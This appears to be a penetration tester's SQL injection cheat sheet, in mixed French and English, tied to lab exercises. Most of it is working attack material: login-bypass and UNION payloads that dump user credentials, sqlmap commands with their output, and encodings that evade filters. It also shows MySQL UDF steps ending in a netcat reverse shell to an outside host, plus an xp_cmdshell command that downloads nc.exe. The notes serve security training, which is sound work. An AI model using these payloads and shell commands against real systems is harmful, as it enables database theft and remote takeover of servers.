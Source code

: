 # SQLi : SQL Injection


## Principe

Requete sql
    SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';

Exploitation
    - Close the string : ' "
    - Widen the request : or 1=1
    - Add inputs with UNION
    - Comment end of request : -- #

 
    http://12.0.0.11/sqli/example1.php?name=root' or '1'='1
    http://12.0.0.11/sqli/example1.php?name=root' or '1'=1
    http://12.0.0.11/sqli/example1.php?name=root’ or 1=1-- -
    http://12.0.0.11/sqli/example1.php?name=root%27%20or%20%271%27=%271
 

## Detection

    '
    "
    admin' and sleep(5) and '1'='1


## Bypass login
    http://10.10.10.129/sqli/example1.php?name=root' or 1=1-- -


## Sources & training

    http://f4l13n5n0w.github.io/blog/2015/05/22/pentesterlab-web-for-pentester-sql-injection/


## SqlMap

SQLi sur les paramètres d'un GET

    $ sqlmap -u "http://10.10.10.129/sqli/example1.php?name=root" --dbs --banner

--banner

    [16:24:27] [INFO] fetching banner
    web server operating system: Linux Ubuntu
    web application technology: Nginx 1.10.3
    back-end DBMS operating system: Linux Ubuntu
    back-end DBMS: MySQL >= 5.0
    banner: '5.7.21-0ubuntu0.16.04.1'

--dbs 

    [16:24:28] [INFO] retrieved: 'jetadmin'
    available databases [2]:                                                                                           
    [*] information_schema
    [*] jetadmin

SQLi sur les paramètres d'un POST

    Intercepter la requète avec Burp, et la sauver dans un fichier dologin.txt

    $ sqlmap -r login.txt --dbs --banner
      -p name : forcer le paramètre à tester
    $ sqlmap -r login.txt -D jetadmin --tables
    $ sqlmap -r login.txt -D jetadmin -T users --dump



## Avoid simple filters

Replace Space by Tab %09 

    username=admin%27%09or%091%3D1%09--%09&password=admin


Bypass php function ‘addslashes’ used to insert strings in mysql requests
Use Chinese charset %bf%27  to set a ' in proxy

    username=a%bf%27+or+1=1+#&password=b

Filter sur AND ou OR, les remplacer par

    AND :   &&   %26%26 
    OR  :  || 

Filtrage sur les Espaces -> newlines %A0, utiliser des \t TAB %90 , utiliser /**/

    http://12.0.0.11/sqli/example2.php?name=root%27%A0or%A01=1--%A0-

Filter with : mysql_real_escape_string

    $iId = mysql_real_escape_string("1 OR 1=1");
    http://12.0.0.11/sqli/example4.php?id=2 OR  1=1


### Note: PHP <=5.2.6
SQL Injection won't work on PHP >= v5.2.6.
Unless php tuned for
````
<IfModule mod_php5.c>
    magic_quotes_gpc = Off
    allow_url_fopen = On
    allow_url_include = On
</IfModule>
````


### Limit returned results

    a' or 1=1 LIMIT 1 #


### Identify number of fields in select

On va ajouter dess entrées dans un select, il faut injecter autant d'entrées

Methode 1: Utiliser order by pour identifier le nombre d'entrées du select

    id=engineer order by 10-- throws an error
    id=engineer order by 9-- throws an error
    id=engineer order by 4-- ok => 4 field

Methode 2: injecter 1, puis 2, puis 3 entrées

    UNION SELECT 1,2,3     : ko
    UNION SELECT 1,2,3,4    : ok ==> 4 fields



### Get table names

```
name=a&pass=admin' or 1=1 UNION SELECT 1,2
name=a&pass=admin' or 1=1 UNION SELECT table_name,table_name FROM information_schema.tables; -- -  
```


### Get table column names


```
name=a&pass=admin' or 1=1 UNION SELECT column_name,column_name FROM information_schema.columns WHERE  table_name='users'; -- -

```

### dump table 
```
name=a&pass=admin' or 1=1 UNION SELECT concat(name,':',pass),1 FROM users; -- -
```


### Dump des users de mysql

```
name=a&pass=admin' or 1=1 UNION SELECT concat(User,':',Password),1 FROM user; -- -
Internal Serever Error: Pas le droit..
```

#### Escape cotes

hex-encoded value of “secret” better than messing with quotes. : table_schema='secret' => table_schema=0x736563726574

    printf "secret" | xxd -ps -c 200 | tr -d '\n'
    736563726574
    id=engineer union all select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=0x736563726574 --


## MySql

### UDF : User Defined function

Compiler une librairie UDF contenant le fonction sys_exec()

L'uploader sur le serveur. La déclarer. La fonction sys_exec() permet de lancer des commandes.

    select sys_exec('/bin/sh');
    after bash access, “bash –p” or “sudo su”


    Tested with : mysql 5.5.60-0+deb8u1
    Create a 'User Defined Function' calling C function 'system'
    Use pre-compiled 32 or 64 depending on target.
    Copy file to /tmp
    create database exploittest;
    use exploittest;
    create table bob(line blob);
    insert into bob values(load_file('/tmp/lib_mysqludf_sys.so'));
    select * from bob into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so
    create function sys_exec returns int soname 'lib_mysqludf_sys.so';
    select sys_exec('nc 11.0.0.21 4444 -e /bin/bash');


##  SQL Server 

Connect to:
````
sqsh -S hostname -Uusername -Ppassword
use database;
go
select * from tblTable;
go
````

If xp_cmdshell is enabled
````
exec master..xp_cmdshell 'type c:\"Documents and Settings"\Administrator\Desktop\proof.txt'
go
EXEC master..xp_cmdshell 'tftp -i 192.168.168.168 GET nc.exe'
go
````

